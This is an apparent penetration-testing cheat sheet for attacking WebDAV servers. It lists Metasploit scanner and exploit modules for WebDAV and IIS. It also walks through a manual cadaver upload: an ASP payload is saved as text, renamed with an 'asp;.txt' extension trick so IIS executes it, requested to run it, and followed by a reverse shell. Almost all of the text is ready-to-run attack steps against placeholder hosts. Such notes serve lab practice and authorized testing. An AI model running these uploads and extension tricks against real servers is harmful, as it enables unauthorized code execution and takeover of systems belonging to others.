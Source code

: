 # WebDAV

### WebDAV Exploitation using Metasploit <a href="webdav-exploitation-using-metasploit" id="webdav-exploitation-using-metasploit"></a>

```bash
# Checking WebDAV using metasploit
use auxiliary/scanner/http/webdav_scanner
set rhosts <IP>
run

# Content discovery using metasploit
use auxiliary/scanner/http/webdav_website_content
set rhosts <IP>
run

# Checking authentication using metasploit
use auxiliary/scanner/http/ms09_020_webdav_unicode_bypass
set rhosts <IP>
run

# Upload exploitation using metasploit
use exploit/windows/iis/iis_webdav_upload_asp

```

### Manual WebDAV exploitation (cadaver) <a href="manual-webdav-exploitation-cadaver" id="manual-webdav-exploitation-cadaver"></a>

```bash
cadaver http://IP/

# Goal is to upload file on IIS Server.
ls 

# Find a directory where we can upload.
cd <path>

# Test for upload
put /path/to/test.asp test.asp

# Upload payload
put /path/to/payload.asp longnamebrotesttest123456789.txt

# Copy and rename payload
copy longnamebrotesttest123456789.txt longnamebrotesttest123456789.asp;.txt

# Access (should execute the ASP content)
http://IP/_vti_pvt/longnamebrotesttest123456789.asp%3b.txt
        
# Then go for reverse shell
```
